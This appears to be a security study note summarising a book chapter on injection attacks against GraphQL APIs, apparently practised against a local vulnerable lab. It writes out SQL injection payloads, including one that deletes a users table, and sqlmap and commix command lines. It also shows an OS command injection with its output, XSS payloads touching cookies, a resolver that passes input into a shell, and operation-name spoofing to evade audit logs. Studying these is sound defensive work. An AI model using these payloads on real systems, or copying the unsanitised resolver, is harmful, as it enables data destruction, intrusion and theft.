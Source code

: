 # Injection Vulnerabilities in GraphQL

### **Introduction**

Injection vulnerabilities occur when an application accepts and processes untrustworthy input without any sanitization. Sanitization is a security measure that involves checking input and removing potentially dangerous characters from it. The absence of such a check could allow the input to be interpreted as a command or a query and execute on either the client side or server side.

### **The Injection Surface**&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Network trust boundaries</p></figcaption></figure>

{% embed url="https://owasp.org/API-Security/editions/2023/en/0x11-t10/" %}

GraphQL presents a wide attack surface due to various points where user input can be injected. These include:

* **Query Arguments:** These are parameters supplied to fields in a GraphQL query. The chapter illustrates how the `pastes` field can take a `filter` argument, which can be vulnerable to SQL injection.

```graphql
# Query Inputs
query {
    pastes(limit: 100) {
        id
        ipAddr
    }
}
------------------------------
# Mutation input points
mutation {
    createPaste(content: "Some content", title:"Some title", public: false) {
        paste {
            id
            ipAddr
        }
    }
}
```

**Exploit**

```graphql
# exploit sql injection 
mutation {
    createPaste(content: "content'); DELETE FROM users; --") {
        paste {
            id
            ipAddr
        }
    }
}
```

* **Field Arguments**: GraphQL fields can also accept arguments that can be manipulated. The example provided involves the `username` field, which is shown to accept a `capitalize` argument.

```graphql
query {
    users {
        username(capitalize: true)
        id
    }
}
```

* **Query Directive Arguments:** Directives modify field behavior, and their arguments can also be a point of injection. An example is a `show_network` directive with a `style` argument.

```graphql
query {
    pastes {
        id
        ipAddr @show_network(style: "cidr")
    }
}
```

You can use the introspection query shown in  to get only the available directives by using the `__schema` meta-field with the directives field.

```graphql
query GetDirectives {
    __schema {
        directives {
            name
            description
            locations
        }
    }
}
```

* **Operation Names:** Clients can define operation names, and these can be manipulated to potentially bypass security measures or mislead log analysis. An example involves spoofing the operation name to bypass audit logging, for example using `SpoofedOperationName` instead of `createPaste`.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>Executing a selected query based on its operation name in GraphiQL Explorer</p></figcaption></figure>

* **Input Entry Points:** Any place where user-controlled data is input, such as fields in mutations, which are used to create, update, or delete data, can be injection points. The `createPaste` mutation, which uses `content`, `title`, and `public` arguments, is one example.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **SQL Injection (SQLi):** The chapter dedicates significant attention to SQL injection, explaining that it can occur when user input is used to construct SQL queries.
  * **Identification:** The chapter advises focusing on fields that accept string values and have names suggesting filtering, such as the `filter` argument in the `pastes` query.
  * **Manual Testing**: Techniques for testing SQL injection manually include using single (') or double (") quotes in input fields to observe how the application responds.
  * **Exploitation:** The chapter explains how to exploit SQLi by using SQL commands, such as `OR 1=1--`, within the filter argument to bypass intended filtering and retrieve all records.
  * **Automated Testing:** The chapter introduces **SQLmap**, a tool for automating SQL injection tests, and explains how to use it to read HTTP requests from a file and test for vulnerabilities.
  * **Database Fingerprinting**: Error messages from the database can be verbose and reveal the database structure to the attacker including table names.
  * **Types of SQL Injection**: The chapter mentions different types of SQLi, such as **blind SQL injection**, **Boolean-based SQL injection**, **error-based SQL injection**, and **time-based SQL injection**.

```graphql
query {
    pastes(filter:"My First Paste'") {
        id
        content
        title
    }
}
----------------------------
query {
    pastes(filter:"My First Paste' or 1=1--") {
        title
        content
    }
}
---------------------------
sqlmap -r request.txt --dbms=sqlite --tables

```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Operating System Command Injection:** The chapter explains how a GraphQL API can be vulnerable to OS command injection, for example when user input is incorporated into system commands.
  * **Code Review:** The chapter highlights the importance of reviewing resolver functions to identify where user inputs are used in OS commands.
  * **Manual Testing**: The chapter demonstrates a manual attack by showing how the `systemDebug` field's `arg` argument can be manipulated to execute commands by using a semicolon to separate them.
  * **Automated Testing:** The chapter introduces **Commix**, a tool that automates OS command injection testing by fuzzing various inputs. It explains how Commix can be used to test variations of payloads, characters, and methods and then save valuable time.

{% code overflow="wrap" %}
```graphql
query {
    systemDebug
}
------------------
query {
    systemDebug(arg:"; uptime")
}
-------------------------
# opuput
PID TTY TIME CMD\n 11999 pts/1 14050 pts/1 1 user, load average: 0.71, 0.84, 0.91\n"\ 00:00:00 bash\n

--------------------
# Automation
commix --url="http://127.0.0.1:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```
{% endcode %}

* **Cross-Site Scripting (XSS):** The chapter discusses how to test for XSS vulnerabilities in GraphQL applications, focusing on three main types of XSS:
  * **Reflected XSS:** The chapter explains that reflected XSS can occur when a malicious script is injected into a request and then reflected back to the user in the response.
  * **Stored XSS:** The chapter notes that stored XSS occurs when malicious code is stored on the server, which can then be executed by other users accessing that data.
  * **DOM-Based XSS:** The chapter explains that DOM-based XSS can be exploited by manipulating the client-side JavaScript.
  * **Testing:** The chapter demonstrates how to test for XSS by inserting JavaScript code, such as `<script>alert("XSS")</script>`, into a mutation’s input fields like the `content` field of `createPaste`, and see if the injected script executes.

```graphql
query {
    hello(msg:"<script>document.cookie;</script>")
}
---------------------------
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
----------------------------
http://example.com/graphql?query=query {hello(msg:"hello")}
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>A stored XSS vulnerability impacting adjacent applications</p></figcaption></figure>



* **Importance of Resolver Functions:** The chapter underscores that understanding how resolver functions process client data is important for finding injection points. Reviewing resolver functions can reveal how inputs are handled and whether they are properly sanitized.

```python
def resolve_system_debug(self, info, arg=None):
    Audit.create_audit_entry(info)
    if arg:
        output = helpers.run_cmd('ps {}'.format(arg))
    else:
        output = helpers.run_cmd('ps')
    return output
```

* **Bypassing Security Measures:** The chapter notes that attackers can attempt to bypass security measures by manipulating GraphQL operation names. This can sometimes avoid audit logging or make malicious requests appear benign.
